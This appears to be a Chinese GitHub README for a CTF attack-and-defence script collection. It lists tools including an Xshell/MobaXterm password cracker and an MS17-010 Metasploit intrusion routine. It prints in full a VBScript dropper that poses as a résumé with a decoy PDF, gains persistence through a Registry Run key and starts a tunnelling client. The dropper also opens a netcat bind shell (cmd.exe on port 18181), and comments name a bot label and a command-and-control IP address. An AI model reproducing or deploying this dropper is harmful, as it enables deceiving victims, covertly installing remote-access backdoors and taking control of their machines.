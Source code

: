# 安全战队常用的CTF主机攻防脚本 CTFpTScript



##  四轮车战队 CTF攻防赛所需要的脚本：

set_the_Flag:随机生成guid，并将以flag{guid}为名称的图片复制到windows目录下。

open_18181_with_nc:开启防火墙，并启动最基础的端口，其他端口仅允许18181端口，并且开始shell。

del_account_Bywhilelist:删除白名单以外的所有账户

one_key_close_17010：一键关闭17010所有端口。

setflag_win_linux:在windows与linux段生成flag文本，可以设置生成数量，其中用户名与内容均为随机。

Xdecrypt:老版本xshell ssh密码碰撞脚本。

Reveal password encrypted by MobaXterm:破解老版本 ssh密码碰撞脚本。

msfhack：msf入侵17010方法包括开启3389创建用户建立反射上传目录等

checkSec.sh：一键审计LINUX安全性能工具。



## 自用一键穿透攻击脚本（不免杀）



演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/demo/myprofile.gif)

伪装成简历，自启动，自我复制，网络穿透，修改配置文件：

```vbscript
On Error Resume Next
Dim fso,Shell,TxtFl,Str
Set fso = CreateObject("Scripting.FileSystemObject")
Set Shell=Wscript.Createobject("Wscript.shell")
If Not fso.folderExists("C:\symbols\") Then     
    fso.CreateFolder "C:\symbols\"
    fso.CreateFolder "C:\symbols\MailContactsCalendarSync\"
	fso.CopyFolder ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
    fso.CopyFile ".\log\MailContactsCalendarSync\*", "C:\symbols\MailContactsCalendarSync\"
	Shell.Run "iexplore.exe C:\symbols\MailContactsCalendarSync\mydoc.pdf",0,TRUE
	fso.getfile(wscript.scriptfullname).copy("C:\symbols\run.vbs")   
End If
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\"
type_name = "REG_SZ"
key_name = "run"
key_data = "C:\symbols\" & key_name & ".vbs"
Shell.RegWrite RegPath & key_name , key_data , type_name
'Set TxtFl = fso.OpenTextFile ("C:\symbols\MailContactsCalendarSync\P2PSocket\Client.ini")
'Str = Replace ( TxtFl.ReadAll,"ClientName=QUAN","ClientName=TestJob") '肉鸡名字
'Str2 = Replace ( TxtFl.ReadAll,"ServerAddress=211.149.222.206:3387","ServerAddress=211.149.222.206:3387")  '上线地址
'TxtFl.Write Str
'TxtFl.Write Str2 
'TxtFl.Close
Shell.Run "C:\symbols\MailContactsCalendarSync\RuntimeBr0ker.exe",0,FALSE
Shell.Run "cmd /c start C:\symbols\MailContactsCalendarSync\nc.exe -Ldp 18181 -e cmd.exe",FALSE
Set fso = Nothing
Set Shell = Nothing



```

## Checksec.sh 一键审计LINUX工具

演示：

 ![img](https://github.com/liquan165/CTFpTScript/blob/master/demo/mylinuxaudit.gif)



## 项目适用于：

车联网安全攻防场景，主机安全攻防场景，工控安全场景，移动安全攻防场景等。















